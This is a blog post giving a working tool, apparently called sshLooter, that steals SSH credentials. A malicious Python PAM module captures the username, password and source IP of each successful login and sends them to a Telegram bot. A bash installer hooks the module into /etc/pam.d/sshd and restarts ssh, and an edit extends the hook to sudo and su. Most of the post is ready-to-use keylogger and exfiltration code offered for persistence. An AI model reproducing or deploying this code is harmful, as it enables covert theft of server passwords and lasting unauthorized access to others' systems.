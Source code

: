 ```yaml
---
layout: post
title: Stealing SSH credentials Another Approach.
description: Recently I posted how to get ssh password using strace, but it's no 100% effective, because the strace output changes on different distros, so searching for another approach I found a new one.
keywords: ssh, pwning, bash, G4mbl3r
disqus: true
tags: [SSH]
categories: Persistence
---
```

#### Stealing SSH credentials Another Approach.
Recently I posted how to get ssh password using strace, but it's no 100% effective, because the strace output changes on different distros, so searching for another approach I found this site [ChokePoint]( http://www.chokepoint.net/2014/01/more-fun-with-pam-python-failed.html) where they show how to create a PAM module using python to log failed attempts on ssh, now all I have to do, was change where they log the password.
Original script, use the function auth_log when the login failed.
{% highlight Python %}
    if not check_pw(user, resp.resp):
        auth_log("Remote Host: %s (%s:%s)" % (pamh.rhost, user, resp.resp))
        return pamh.PAM_AUTH_ERR
     return pamh.PAM_SUCCESS
{% endhighlight %}

And my script use my function sendMessage when the login is successful
{% highlight Python %}
    if not check_pw(user, resp.resp):
        return pamh.PAM_AUTH_ERR
    sendMessage("Connection from host {} user:{} password: {})".format(pamh.rhost, user, resp.resp))
    return pamh.PAM_SUCCESS
{% endhighlight %}

This function basically send the user,password and the IP of who is connecting, here is the final code,
{% highlight Python %}
import spwd
import crypt
import requests

def sendMessage(msg):
    apiKey = 'BOT-API-KEY'
    userId = 'USERID'
    url = 'https://api.telegram.org/bot{}/sendMessage?chat_id={}&text={}'.format(apiKey,userId,msg)
    r = requests.get(url)

def check_pw(user, password):
    """Check the password matches local unix password on file"""
    hashed_pw = spwd.getspnam(user)[1]
    return crypt.crypt(password, hashed_pw) == hashed_pw

def pam_sm_authenticate(pamh, flags, argv):
    try:
        user = pamh.get_user()
    except pamh.exception as e:
        return e.pam_result

    if not user:
        return pamh.PAM_USER_UNKNOWN
    try:
        resp = pamh.conversation(pamh.Message(pamh.PAM_PROMPT_ECHO_OFF, 'Password:'))
    except pamh.exception as e:
        return e.pam_result

    if not check_pw(user, resp.resp):
        return pamh.PAM_AUTH_ERR

    sendMessage("Connection from host {} user:{} password: {})".format(pamh.rhost, user, resp.resp))
    return pamh.PAM_SUCCESS


def pam_sm_setcred(pamh, flags, argv):
    return pamh.PAM_SUCCESS


def pam_sm_acct_mgmt(pamh, flags, argv):
    return pamh.PAM_SUCCESS


def pam_sm_open_session(pamh, flags, argv):
    return pamh.PAM_SUCCESS


def pam_sm_close_session(pamh, flags, argv):
    return pamh.PAM_SUCCESS


def pam_sm_chauthtok(pamh, flags, argv):
    return pamh.PAM_SUCCESS

{% endhighlight %}

I also created a bash script to "install" this ssh keylogger, where all the dependencies are installed, and configure this PAM module on /etc/pam.d/sshd
{% highlight bash %}
#!/bin/bash

# Install dependencies to create a PAM module using python (Except for python-pip)
apt-get install python-pam libpam-python python-pip

# Install dependencies python
pip install requests

# Check if exist the entrie on pam, for this module
if ! grep -Fq "looter.py" /etc/pam.d/sshd;then
    sed -i "/common-auth/a auth requisite pam_python.so looter.py" /etc/pam.d/sshd
fi

code='
import spwd
import crypt
import requests

def sendMessage(msg):
    apiKey = "API-KEY"
    userId = "USER-ID"
    data = {"chat_id":userId,"text":msg}
    url = "https://api.telegram.org/bot{}/sendMessage".format(apiKey)
    r = requests.post(url,json=data)

def check_pw(user, password):
    """Check the password matches local unix password on file"""
    hashed_pw = spwd.getspnam(user)[1]
    return crypt.crypt(password, hashed_pw) == hashed_pw

def pam_sm_authenticate(pamh, flags, argv):
    try:
        user = pamh.get_user()
    except pamh.exception as e:
        return e.pam_result

    if not user:
        return pamh.PAM_USER_UNKNOWN
    try:
        resp = pamh.conversation(pamh.Message(pamh.PAM_PROMPT_ECHO_OFF, "Password:"))
    except pamh.exception as e:
        return e.pam_result

    if not check_pw(user, resp.resp):
        return pamh.PAM_AUTH_ERR

    sendMessage("Connection from host {} using the user {} and password {}".format(pamh.rhost, user, resp.resp))
    return pamh.PAM_SUCCESS


def pam_sm_setcred(pamh, flags, argv):
    return pamh.PAM_SUCCESS


def pam_sm_acct_mgmt(pamh, flags, argv):
    return pamh.PAM_SUCCESS


def pam_sm_open_session(pamh, flags, argv):
    return pamh.PAM_SUCCESS


def pam_sm_close_session(pamh, flags, argv):
    return pamh.PAM_SUCCESS


def pam_sm_chauthtok(pamh, flags, argv):
    return pamh.PAM_SUCCESS
'
mkdir -p /lib/security/
echo "$code" > /lib/security/looter.py
/etc/init.d/ssh restart
{% endhighlight %}
In the final, when someone successfuly log on the server you'll receive a message like that.
![alt text](/assets/images/telegram-message-ssh-pam.jpg)

#### EDIT 13/02/2018

It works on sudo an su too, just add the line above,
{% highlight bash %}
auth requisite pam_python.so looter.py
{% endhighlight %}

in files
{% highlight bash %}
/etc/pam.d/sudo
/etc/pam.d/su
{% endhighlight %}

Or just git clone the project and follow the instructions on README.md
{% highlight bash %}
git clone https://github.com/mthbernardes/sshLooter.git
{% endhighlight %}
